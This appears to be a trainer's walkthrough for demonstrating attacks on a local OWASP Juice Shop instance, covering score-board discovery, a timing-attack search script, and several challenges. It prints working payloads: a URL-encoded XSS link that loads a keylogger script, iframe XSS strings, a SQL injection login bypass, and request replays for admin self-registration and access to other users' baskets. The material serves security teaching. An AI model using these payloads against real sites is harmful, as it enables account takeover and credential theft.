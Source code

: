 ```yaml
---
layout: default
---
```


# Setup :cd:

Configure and run a custom docker-based instance of juice-shop:

```
sudo docker run -ti --init --rm  -p 3000:3000 -p 8080:80 hugopacheco/juice-shop-demo

# python only required for the Timing attack demo
sudo apt-get -y install python3-pip
pip3 install requests statistics argparse
```

Install [Google Chrome](https://www.google.com/chrome/) and its [WebSpy](https://chrome.google.com/webstore/detail/webspy-explore-and-test-w/aedipmheomnpcbgmanofhaccebgapije?hl=en) extension.

Open the locally-hosted Juice Shop website (http://localhost:3000) with Chrome.

## FAQ :scroll:

* For multiple demos, killing and relaunching the docker container shall reset all progress.
* If the timing delays in the timing attack demo are not noticeable, you may increase the delay in milliseconds for each product search by setting the flag `SEARCH_DELAY` before launching the container, e.g. `export SEARCH_DELAY=100` sets the delay to 100ms. 

# Examples :rocket:

You can demonstrate these in order, or select a few at will.

## Score Board challenge :star:

<details>
<summary>More info</summary>

This challenge serves to explain the structure of web pages and to demonstrate how Juice Shop challenges work:

1. Explain how to use the browser's Developer Tools.
2. Then show how to find the score-board by inspecting the HTML and JavaScript code of the frontpage.
3. You will find the `score-board` as a `path` defined in file `main.js`. Go to the page `http://localhost:3000/#/score-board`.
4. When you solve a Juice Shop challenge, the site will greet you with a green notification.
</details>
<p></p>

<details>
<summary>Questions</summary> :question:

1. Which is the link to the scoreboard?
2. Is it secure to hide information in a web page?
</details>
<p></p>

## XSS demo :link:

<details>
<summary>More info</summary>

Showcase the XSS demo (more detailed instructions [here](https://pwning.owasp-juice.shop/appendix/trainers.html)):

1. Open the keylogger at (http://localhost:8080/logger.php).
2. Open this [link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp) in a new tab to start the XSS attack. Explain why following malicious links is a very common scenario. Your page will run some malicious JS that plays music and shakes to its sound, while it installs a keylogger.
3. Login as an existing user and see that the credentials are being recorded to the keylogger.
4. Refresh the web page to unload the attack script.
</details>
<p></p>

## Zero Stars challenge :star:

<details>
<summary>More info</summary>

Explain how to use WebSpy (under `Developer Tools > Spy`) to monitor the requests made by the browser to the Juice Shop website. Argue why this is the modus-operandi of many hackers.
Then show how to submit a zero-star review:

1. Do a regular action: posting a new comment in the *Customer Feedback* page.
2. You may check that your comment actually appears in the *About Us* page.
3. Replay a similar request with WebSpy, this time with `rating:0`. 
</details>
<p></p>

## Timing attack demo :hourglass_flowing_sand:

<details>
<summary>More info</summary>

This is a demo on how subtle timing differences may allow us to recover hidden information. This is not an actual Juice Shop challenge, but is inspired by the Christmas Special challenge :star: :star:.

1. Open up WebSpy and find the backend search request. You may notice that, independently of the search query in the frontend, the backend request is always `/rest/products/search?q=` with an empty query. (Product filtering is happening by default in the JS side.)
2. You can nonetheless replay the request and fill in the `q` argument with your own search term.
3. This is particularly interesting for search terms for which there are **no apparent** products. For example, the Christmas Special challenge invites us to search for an hidden *Christmas special offer of 2014*. We can use WebSpy to search for two different terms such as `christmas` and `personal`; they both return an empty match, but is there a noticeable difference in the time of the request? It does seem so...
4. After all, the server may take an arbitrary time to respond. We can further support our suspicions by repeating the same requests multiple times and checking if there is still a significant difference in the average times. Download this Python [script](demo/xs-search.py) to automate the search. Then run the script for our two search terms; you shall get something like this:

```
% python3 xs-search.py christmas
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.03077825400000438
```

```
% python3 xs-search.py personal
Namespace(QUERY='personal', n=10, t='runtime', nextchar=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.007031379100000438
```

Why does `christmas` take longer than `personal`? Probably because the server is taking more time to compare the search term and prepare the results for products that exist, than for products that do not exist.

5. There does seem to exist some product with the word `christmas` in its name. How can we find its full name? We need to find more characters before and/or after the word `christmas`. An idea is to attempt several characters, and check if there is a measurable time difference. In the script, we are trying characters from `a` to `z` and from `0` to `9`; other special characters are captured by the `_` wildcard. We can configure this to search for a character before or after:

```
% python3 xs-search.py christmas --nextchar before
Namespace(QUERY='christmas', n=10, t='runtime', nextchar='before', host='localhost:3000')
christmasa 0.006191999999980908
christmasb 0.005347312500001863
...
christmas_ 0.004923229000007268
```

All characters seem to take roughly the same amount of time. This suggests that there is no character appearing before `christmas` in our hidden product.

```
% python3 xs-search.py christmas -nextchar after
Namespace(QUERY='christmas', n=10, t='runtime', nextchar='after', host=['localhost:3000'])
christmasa 0.008081472499761731
christmasb 0.008309272999875248
...
christmas_ 0.029330530500039458
```

It seems that the `_` wildcard takes longer, hence the next character after `christmas` is neither a letter nor a number, but it does seem to exist.

We can repeat this process one character at a time:

```
% python3 xs-search.py christmas_ --nextchar after
Namespace(QUERY='christmas_', n=10, t='runtime', nextchar='after', host=['localhost:3000'])
christmas_a 0.006253162499982864
...
christmas_s 0.029131466499995443
...
christmas__ 0.028724410000257196
```

It seems that `s` takes longer (actually, the same as the `_` wildcard which always matches), hence the word `christmas_s` is in the name of our product.

You can repeat this process 35 times, until a new specific character cannot be singled out. The name of the actual hidden product is `Christmas Super-Surprise-Box (2014 Edition)`. We are not trying to find all the characters to avoid searching a larger character space and to avoid mentioning special HTML character encodings.

</details>
<p></p>

## Confidential Document challenge :star:

<details>
<summary>More info</summary>

1. Check the *About Us* page and follow the linked FTP file (`/ftp/legal.md`).
2. Replay the request with WebSpy to list the parent directory (`/ftp/`).
3. Find the `acquisitions.md` file in the response a get the confidential file (`/ftp/acquisitions.md`)..
</details>
<p></p>

## DOM XSS challenge :star:

<details>
<summary>More info</summary>

1. Paste the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`) in the search field.
2. You will immediately see a XSS popup.
</details>
<p></p>

## Reflected XSS challenge :star: :star:

<details>
<summary>More info</summary>

1. Create some user and login.
2. Order some product (add some product to the basket, checkout, fill out all the payment information and place order), visit the *Order History* page and click *Track Order* on your order.
3. The link of your product's order information will have the structure `/#/track-result/new?id=7cb0-dd30e23740d08c54`
3. Attack the orders search feature by replacing your order id with the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`). You may need to refresh the page for the script to be actually executed.
</details>
<p></p>

## Admin Registration challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Register a new user and inspect the request/response in WebSpy.
2. Inspect the fields of the response, you shall see a field `role: customer`
3. Replay the request with `role:admin` to register a new user with admin privileges. Make sure to register a new user; registering a repeated user issues an error.
</details>
<p></p>

## Admin Section challenge :star: :star:

<details>
<summary>More info</summary>

1. You need to be logged in as a user with admin privileges (from previous challenge)
2. Find the admin page by inspecting the HTML and JavaScript using the Developer Tools.
3. You will find the `administration` page as a `path` defined in file `main.js`.
</details>
<p></p>

## Forged Review challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Submit a new review for some product, while logged in, and replay it with WebSpy.
2. Try changing the author information (the `author` field in the request is just a string, the user doesn't even need to be valid).
</details>
<p></p>

## Forged Feedback challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Submit a new comment in the *Customer Feedback* page, while logged in, and replay it with WebSpy.
2. Try changing the user information (changing the `UserId` field to some other random user id, e.g. `1`; the user's name in the comment is just a string unrelated to the actual user id).
</details>
<p></p>

##  View Basket challenge :star: :star:

<details>
<summary>More info</summary>

1. View your basket and replay the request with WebSpy for a different user. You may notice that the user id appears in the request link (`/rest/basket/<id>`).
2. Replay the request with WebSpy for some other user id (e.g., `1`).
</details>
<p></p>

## Login Admin challenge :star: :star:

<details>
<summary>More info</summary>

You can also try to break authentication by demonstrating how SQL injection works:

1. Search for user account name in the *About Us* page. You may notice that there are a few `****@juice-sh.op` accounts.
2. Since we trying to login as special user named admin, a good guess is to assume that his account name will be `admin@juice-sh.op`.
3. Go to the login page and demonstrate the SQL injection by typing `admin@juice-sh.op' --` in the `username` field and anything in the `password` field.
4. You may confirm that this user actually has administrator privileges by going to the `/#/administration` page.
</details>
<p></p>



